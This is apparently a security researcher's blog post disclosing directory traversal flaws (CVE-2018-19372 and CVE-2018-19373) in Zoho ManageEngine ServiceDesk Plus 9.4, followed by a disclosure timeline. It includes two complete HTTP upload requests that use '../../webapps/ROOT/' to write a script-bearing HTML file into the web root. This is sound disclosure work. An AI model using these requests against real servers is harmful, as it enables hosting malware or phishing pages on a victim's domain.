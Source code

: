 ```yaml
---
layout: post
title: Directory Traversal Vulnerability Found in Zoho ManageEngine Service Desk Plus 9.4
tags:
  - hacking
  - websec
  - CVE-2018-19372
  - CVE-2018-19373
image: /assets/img/2019-02-18-vulnerabilities-in-zoho-servicedesk/thumbnail.jpg
---
```


Multiple directory traversal vulnerability exists in Zoho ManageEngine Service Desk Plus 9.4 which allows a user with at least guest access to upload a file which can be placed into a directory that is writable by the applicaiton. This includes directories that are served from the web server. An attacker can make use of this to serve malware from the domain hosting the ServiceDesk application or to perform convincing social engineering attacks by (for example) uploading an HTML file that requests a user to log in to the application. As this page will be served from the ServiceDesk domain, it will look like a valid page of the application. The following HTTP request shows using directory traversal in the “module” parameter to change the path the “testfile.html” file is uploaded to. This places the uploaded file in webapps/ROOT/<userID> directory.

### Directory Traversal in FileAttachment.jsp

```http
POST /common/FileAttachment.jsp HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://example.com/AddNewProblem.cc
Content-Type: multipart/form-data; boundary=---------------------------28363178828984
Content-Length: 640
Cookie: JSESSIONID=54E0AABA3F31B6868B13E0F0E3CC775E; JSESSIONIDSSO=E79BD1E50040898CFFE31F5FA592F9DE; sdpcsrfcookie=793aa7b9-0a12-4800-b674-1f912b584d9b; servicedeskplus-_zldp=LsfUh%2FKeku%2BdsWZxSHjiX51nFQy4GpySE4FylFB4M7br5Z1XvvLoEZmwHtjfPqKs; servicedeskplus-_zldt=7567fa5e-55e1-4cff-a800-c96f8ccad8fb
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------28363178828984
Content-Disposition: form-data; name="modId"


null
-----------------------------28363178828984
Content-Disposition: form-data; name="module"


../../webapps/ROOT/
-----------------------------28363178828984
Content-Disposition: form-data; name="filePath"; filename="testfile.html"
Content-Type: text/html


<script>alert(1)</script>
-----------------------------28363178828984
Content-Disposition: form-data; name="att_desc"



-----------------------------28363178828984
Content-Disposition: form-data; name="attach"

Attach file
-----------------------------28363178828984--
```

### Directory Traversal in ResourcesAttachments.jsp

```http
POST /asset/ResourcesAttachments.jsp HTTP/1.1
Host: example.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://example.com/asset/ResourcesAttachments.jsp
Content-Type: multipart/form-data; boundary=---------------------------6692327381577
Content-Length: 829
Cookie: JSESSIONID=6C91A33EB54282BCEAFBEBBF1FB1AA54; sdpcsrfcookie=793aa7b9-0a12-4800-b674-1f912b584d9b; servicedeskplus-_zldp=LsfUh%2FKeku%2BdsWZxSHjiX51nFQy4GpySE4FylFB4M7br5Z1XvvLoEZmwHtjfPqKs; servicedeskplus-_zldt=7567fa5e-55e1-4cff-a800-c96f8ccad8fb; JSESSIONIDSSO=CCB0AE7CCF9B8208245AC5DB0E8EC06E
Connection: close
Upgrade-Insecure-Requests: 1


-----------------------------6692327381577
Content-Disposition: form-data; name="TYPE"


null
-----------------------------6692327381577
Content-Disposition: form-data; name="wsID"


null
-----------------------------6692327381577
Content-Disposition: form-data; name="module"


../../webapps/ROOT/
-----------------------------6692327381577
Content-Disposition: form-data; name="pageName"


null
-----------------------------6692327381577
Content-Disposition: form-data; name="filePath"; filename="test123.html"
Content-Type: text/html


<script>alert(1)<script>
-----------------------------6692327381577
Content-Disposition: form-data; name="att_desc"



-----------------------------6692327381577
Content-Disposition: form-data; name="attach"


Attach file
-----------------------------6692327381577--
```

### Disclosure Timeline
- **2018-07-02**: Vulnerability raised to vendor using their bug reporting platform
- **2018-07-03**: Response from vendor acknowledging receipt of vulnerability
- **2018-08-20**: Contact vendor requesting update
- **2018-08-20**: Fix released for FileAttachment.jsp in release 9415
- **2018-08-21**: Contact vendor requesting update for ResourcesAttachments.jsp vulnerability
- **2019-01-17**: Fix released for ResourcesAttachments.jsp in release 10009

